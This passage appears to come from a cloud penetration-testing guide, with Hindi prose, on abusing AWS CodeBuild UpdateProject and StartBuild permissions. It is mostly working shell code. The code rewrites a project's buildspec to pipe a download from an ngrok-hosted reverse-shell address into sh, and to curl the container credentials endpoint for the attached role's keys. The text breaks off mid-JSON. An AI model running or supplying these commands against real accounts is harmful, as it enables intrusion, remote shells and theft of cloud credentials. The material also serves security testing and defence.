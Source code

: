 ### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

पिछले खंड में की तरह लेकिन **`iam:PassRole` अनुमति के बिना**, आप इस अनुमति का दुरुपयोग कर सकते हैं और **मौजूदा Codebuild परियोजनाओं को संशोधित करने और उनकी पहले से ही निर्धारित भूमिका तक पहुंचने** के लिए।
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"codebuild_lab_3_project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

printf "$JSON" > $REV_PATH

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build-batch --project-name codebuild-demo-project
```
{% endtab %}

{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
```